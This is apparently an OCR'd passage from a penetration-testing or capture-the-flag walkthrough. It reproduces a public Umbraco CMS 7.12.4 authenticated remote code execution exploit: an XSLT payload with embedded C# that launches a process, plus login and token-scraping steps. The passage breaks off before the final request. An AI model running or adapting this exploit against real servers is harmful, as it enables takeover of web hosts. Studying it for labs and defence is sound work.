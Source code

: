 ```bash
Started: Thu Mar 26 13:23:34 2020
Stopped: Thu Mar 26 13:23:43 2020
```

Now lets look at the RCE script we found with searchsploit and test it.

```bash
# Exploit Title: Umbraco CMS - Remote Code Execution by authenticated administrators
# Dork: N/A
# Date: 2019-01-13
# Exploit Author: Gregory DRAPERI & Hugo BOUTINON
# Vendor Homepage: http://www.umbraco.com/
# Software Link: https://our.umbraco.com/download/releases
# Version: 7.12.4
# Category: Webapps
# Tested on: Windows IIS
# CVE: N/A


import requests;

from bs4 import BeautifulSoup;

def print_dict(dico):
    print(dico.items());
    
print("Start");

# Execute a calc for the PoC
payload = '<?xml version="1.0"?><xsl:stylesheet version="1.0" \
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:msxsl="urn:schemas-microsoft-com:xslt" \
xmlns:csharp_user="http://csharp.mycompany.com/mynamespace">\
<msxsl:script language="C#" implements-prefix="csharp_user">public string xml() \
{ string cmd = ""; System.Diagnostics.Process proc = new System.Diagnostics.Process();\
 proc.StartInfo.FileName = "calc.exe"; proc.StartInfo.Arguments = cmd;\
 proc.StartInfo.UseShellExecute = false; proc.StartInfo.RedirectStandardOutput = true; \
 proc.Start(); string output = proc.StandardOutput.ReadToEnd(); return output; } \
 </msxsl:script><xsl:template match="/"> <xsl:value-of select="csharp_user:xml()"/>\
 </xsl:template> </xsl:stylesheet> ';

login = "XXXX;
password="XXXX";
host = "XXXX";

# Step 1 - Get Main page
s = requests.session()
url_main =host+"/umbraco/";
r1 = s.get(url_main);
print_dict(r1.cookies);

# Step 2 - Process Login
url_login = host+"/umbraco/backoffice/UmbracoApi/Authentication/PostLogin";
loginfo = {"username":login,"password":password};
r2 = s.post(url_login,json=loginfo);

# Step 3 - Go to vulnerable web page
url_xslt = host+"/umbraco/developer/Xslt/xsltVisualize.aspx";
r3 = s.get(url_xslt);

soup = BeautifulSoup(r3.text, 'html.parser');
VIEWSTATE = soup.find(id="__VIEWSTATE")['value'];
VIEWSTATEGENERATOR = soup.find(id="__VIEWSTATEGENERATOR")['value'];
UMBXSRFTOKEN = s.cookies['UMB-XSRF-TOKEN'];
headers = {'UMB-XSRF-TOKEN':UMBXSRFTOKEN};
```